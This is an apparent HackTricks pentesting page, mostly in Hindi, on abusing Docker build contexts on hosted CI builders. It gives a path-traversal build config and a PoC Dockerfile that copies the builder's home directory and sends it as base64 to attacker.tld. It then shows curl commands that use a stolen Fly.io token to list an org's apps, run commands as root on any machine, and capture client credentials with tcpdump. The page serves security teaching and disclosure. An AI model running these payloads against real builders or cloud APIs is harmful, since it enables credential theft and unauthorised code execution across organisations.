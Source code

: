 # Hosted Builders में Docker Build Context का दुरुपयोग (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

यदि कोई CI/CD प्लेटफ़ॉर्म या hosted builder योगदानकर्ताओं को Docker build context path और Dockerfile path निर्धारित करने की अनुमति देता है, तो आप अक्सर context को parent directory (उदा., "..") पर सेट कर सकते हैं और host फाइलों को build context का हिस्सा बना सकते हैं। फिर, एक attacker-controlled Dockerfile COPY कर सकता है और builder user के home में पाए गए secrets को exfiltrate कर सकता है (उदाहरण के लिए, ~/.docker/config.json)। चोरी किए गए registry tokens provider के control-plane APIs के खिलाफ भी काम कर सकते हैं, जिससे org-wide RCE सक्षम हो सकती है।

## हमले की सतह

कई hosted builder/registry सेवाएँ user-submitted images बनाते समय मोटे तौर पर यह करती हैं:
- Read a repo-level config that includes:
- build context path (sent to the Docker daemon)
- Dockerfile path relative to that context
- Copy the indicated build context directory and the Dockerfile to the Docker daemon
- Build the image and run it as a hosted service

यदि प्लेटफ़ॉर्म build context को canonicalize और प्रतिबंधित नहीं करता है, तो एक user इसे repository के बाहर किसी लोकेशन पर सेट कर सकता है (path traversal), जिससे build user द्वारा पढ़ी जा सकने वाली arbitrary host फाइलें build context का हिस्सा बन जाती हैं और Dockerfile में COPY के लिए उपलब्ध हो जाती हैं।

प्रायोगिक सीमाएं जो आमतौर पर देखी जाती हैं:
- The Dockerfile must reside within the chosen context path and its path must be known ahead of time.
- The build user must have read access to files included in the context; special device files can break the copy.

## PoC: Path traversal via Docker build context

Example malicious server config declaring a Dockerfile within the parent directory context:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
नोट्स:
- ".." का उपयोग अक्सर builder उपयोगकर्ता के होम (उदा., /home/builder) की ओर जाता है, जिसमें आमतौर पर संवेदनशील फाइलें होती हैं।
- अपने Dockerfile को repo के directory नाम के अंदर रखें (उदा., repo "test" → test/Dockerfile) ताकि यह विस्तारित parent context के भीतर बना रहे।

## PoC: Dockerfile to ingest and exfiltrate the host context
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
आमतौर पर $HOME से पुनर्प्राप्त किए जाने वाले लक्ष्य:
- ~/.docker/config.json (registry auths/tokens)
- अन्य cloud/CLI कैश और कॉन्फ़िग (जैसे, ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

टिप: रिपॉज़िटरी में .dockerignore मौजूद होने के बावजूद, कमजोर platform-side context selection यह नियंत्रित करता है कि क्या daemon को भेजा जाएगा। यदि प्लेटफ़ॉर्म चुने गए path को आपके repo’s .dockerignore का मूल्यांकन करने से पहले daemon पर कॉपी कर देता है, तो होस्ट फाइलें अभी भी उजागर हो सकती हैं।

## अधिक-विशेषाधिकार वाले टोकन के साथ क्लाउड पिवट (उदाहरण: Fly.io Machines API)

कुछ प्लेटफ़ॉर्म एक ही bearer token जारी करते हैं जो container registry और control-plane API दोनों के लिए उपयोगी होता है। यदि आप किसी registry token को exfiltrate कर लेते हैं, तो उसे provider API पर आज़माएँ।

उदाहरण API कॉल्स Fly.io Machines API के खिलाफ, ~/.docker/config.json से चोरी किए गए token का उपयोग करके:

Enumerate apps in an org:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
किसी भी app की किसी भी मशीन के अंदर root के रूप में कमांड चलाएँ:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
परिणाम: उस token के पास पर्याप्त privileges होने पर सभी hosted apps में org-wide remote code execution।

## समझौता किए गए hosted services से Secrets की चोरी

hosted servers पर exec/RCE होने पर, आप client-supplied secrets (API keys, tokens) प्राप्त कर सकते हैं या prompt-injection attacks अंजाम दे सकते हैं। उदाहरण: tcpdump इंस्टॉल करके port 8080 पर HTTP ट्रैफ़िक capture करें ताकि inbound credentials निकाले जा सकें।
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Captured requests में अक्सर client credentials headers, bodies, या query params में पाए जाते हैं।

## References

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
